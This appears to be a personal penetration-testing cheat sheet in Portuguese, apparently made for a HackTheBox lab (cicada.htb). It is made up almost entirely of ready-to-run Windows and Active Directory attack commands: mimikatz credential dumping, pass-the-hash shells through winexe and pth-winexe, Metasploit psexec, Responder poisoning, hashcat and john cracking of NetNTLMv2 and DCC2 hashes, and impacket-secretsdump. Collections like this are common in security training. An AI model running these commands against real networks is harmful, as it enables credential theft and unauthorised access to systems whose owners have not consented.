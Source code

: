 mimikatz para pegar credenciais
```
wdigest
```

## obtendo shell/ validando usuário
validando credenciais:
```
winexe -U USER%PASS //HOST cmd.exe
```

```
sudo crackmapexec smb hosts.txt -d cicada.htb -u <USER> -p <PASS>
```

```
exploit/windows/smb/psexec

Em alguns casos vai ter que mudar o target para conseguir shell
    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command

```

```
pth-winexe -U bernardo%HASH //HOST cmd.exe
```

```
responder -I <interface> -Pbv
```

ntlmv2 (hashcat 5600 e john netntlmv2)
```
hashcat -m 5600 HASH.txt WORDLIST 
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**dcc2 (hashcat 2100 e john mscash2)**
```
hashcat -m 2100 HASH.txt WORDLIST
john --format=mscash2 hash_secretdump --wordlist=~/wordlist/rockyou.txt

hash formatada:
$DCC2$10240#thenrique#bffd65356630d9a479f8e6761f56393d
```
note que a hash precisa estar corretamente formatada


obtendo hashes a partir de um usuário validado
```
impacket-secretsdump DOMAIN/USER:PASS@HOST
```
